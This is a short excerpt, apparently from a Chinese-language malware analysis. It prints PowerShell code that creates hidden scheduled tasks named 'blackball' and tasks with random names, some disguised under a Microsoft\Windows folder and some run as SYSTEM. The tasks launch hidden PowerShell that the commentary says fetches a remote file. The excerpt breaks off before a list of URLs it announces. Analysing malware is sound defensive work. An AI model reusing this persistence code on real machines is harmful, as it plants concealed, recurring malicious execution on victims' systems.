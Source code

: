 ```powershell
try{
	$doit=$stsrv.GetFolder("\").GetTask("blackball")
}catch{}
# 若不存在进行
if(-not $doit){
	if($sa){
		# 每120分钟执行blackball 
		schtasks /create /ru system /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	} else {
		schtasks /create /sc MINUTE /mo 120 /tn blackball /F /tr "blackball"
	}
	foreach($u in $us){
		$i = [array]::IndexOf($us,$u)
		# 写入计划任务的位置
		if($i%3 -eq 0){$tnf=''}
		if($i%3 -eq 1){$tnf=getRan}
		if($i%3 -eq 2){if($sa){$tnf='MicroSoft\Windows\'+(getRan)}else{$tnf=getRan}}
		$tn = getRan
		if($sa){
			schtasks /create /ru system /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -c PS_CMD"
		} else {
			schtasks /create /sc MINUTE /mo 60 /tn "$tnf\$tn" /F /tr "powershell -w hidden -c PS_CMD"
		}
		start-sleep 1
		$folder=$stsrv.GetFolder("\$tnf")
		$taskitem=$folder.GetTasks(1)
		foreach($task in $taskitem){
			foreach ($action in $task.Definition.Actions) {
				try{
					if($action.Arguments.Contains("PS_CMD")){	
						$folder.RegisterTask($task.Name, $task.Xml.replace("PS_CMD",$tmps.replace('U1',$u.substring(0,5)).replace('U2',$u.substring(5))), 4, $null, $null, 0, $null)|out-null
					}
				}catch{}
			}
		}
		schtasks /run /tn "$tnf\$tn"
		start-sleep 5
	}
}

```

查看是否已经存在名为blackball的定时任务,

不存在则创建定时任务执行以获取远程文件`a.jsp`



以下是部分远程脚本中纯为完成信息反馈的URL（访问返回404） ：
